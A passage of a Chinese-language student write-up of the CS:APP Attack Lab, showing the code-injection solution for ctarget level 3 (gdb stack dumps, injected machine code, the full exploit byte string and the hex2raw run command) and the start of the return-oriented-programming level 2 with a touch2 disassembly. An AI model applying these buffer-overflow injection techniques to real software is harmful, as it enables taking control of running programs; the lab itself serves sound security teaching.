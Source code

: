 ```
mov    $0x5561dc80,%rdi
ret

```
这里出现调用hexmatch之后$0x5561dc80中的内容被覆盖，所以再次在getbuf()中中断，打印

```
(gdb) x/56xb 0x5561dc78
0x5561dc78:	0x35	0x39	0x62	0x39	0x39	0x37	0x66	0x61
0x5561dc80:	0x48	0xc7	0xc7	0x78	0xdc	0x61	0x55	0xc3
0x5561dc88:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc90:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc98:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dca0:	0x80	0xdc	0x61	0x55	0x00	0x00	0x00	0x00
0x5561dca8:	0xfa	0x18	0x40	0x00	0x00	0x00	0x00	0x00

```

发现经过调用hexmatch，只有$0x5561dc78中的没有被覆盖

选择在0x5561dc78开始的8个字节保存 在0x5561dc80开始的8个字节保存注入的机器代码48 c7 c7 80 dc 61 55 c3

```
0000000000000000 <.text>:
   0:	48 c7 c7 80 dc 61 55 	mov    $0x5561dc80,%rdi
   7:	c3                   	retq  

```
同时将touch3()的入口地址设置到0x5561dca8开始的8个字节，修改ctarget_l3为

```
35 39 62 39 39 37 66 61 48 c7 c7 78 dc 61 55 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00 

```
运行

```
./hex2raw < ctarget_l3.txt | ./ctarget -q

```

发现结果正确

## Part II: Return-Oriented Programming

### level 2

```
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 3c 20 00 02 	movl   $0x2,0x203ce0(%rip)        # 6054dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 3c 20 00    	cmp    0x203ce2(%rip),%edi        # 6054e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be 08 32 40 00       	mov    $0x403208,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 8b 05 00 00       	callq  401dad <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 30 32 40 00       	mov    $0x403230,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
```